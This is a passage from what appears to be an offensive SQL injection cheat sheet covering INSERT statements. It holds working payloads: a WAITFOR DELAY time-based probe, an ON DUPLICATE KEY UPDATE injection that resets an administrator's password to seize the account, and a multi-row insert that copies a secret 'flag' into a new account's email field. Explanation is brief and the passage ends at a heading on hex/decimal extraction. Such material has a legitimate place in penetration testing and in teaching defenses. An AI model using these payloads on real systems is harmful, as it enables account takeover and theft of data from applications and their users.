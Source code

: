 Add as much `','',''` as you consider to exit the VALUES statement. If delay is executed, you have a SQLInjection.

```sql
name=','');WAITFOR%20DELAY%20'0:0:5'--%20-
```

### ON DUPLICATE KEY UPDATE

The `ON DUPLICATE KEY UPDATE` clause in MySQL is utilized to specify actions for the database to take when an attempt is made to insert a row that would result in a duplicate value in a UNIQUE index or PRIMARY KEY. The following example demonstrates how this feature can be exploited to modify the password of an administrator account:

Example Payload Injection:

An injection payload might be crafted as follows, where two rows are attempted to be inserted into the `users` table. The first row is a decoy, and the second row targets an existing administrator's email with the intention of updating the password:

```sql
INSERT INTO users (email, password) VALUES ("generic_user@example.com", "bcrypt_hash_of_newpassword"), ("admin_generic@example.com", "bcrypt_hash_of_newpassword") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_newpassword" -- ";
```

Here's how it works:

- The query attempts to insert two rows: one for `generic_user@example.com` and another for `admin_generic@example.com`.
- If the row for `admin_generic@example.com` already exists, the `ON DUPLICATE KEY UPDATE` clause triggers, instructing MySQL to update the `password` field of the existing row to "bcrypt_hash_of_newpassword".
- Consequently, authentication can then be attempted using `admin_generic@example.com` with the password corresponding to the bcrypt hash ("bcrypt_hash_of_newpassword" represents the new password's bcrypt hash, which should be replaced with the actual hash of the desired password).

### Extract information

#### Creating 2 accounts at the same time

When trying to create a new user and username, password and email are needed:

```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```

#### Using decimal or hexadecimal

With this technique you can extract information creating only 1 account. It is important to note that you don't need to comment anything.

Using **hex2dec** and **substr**:

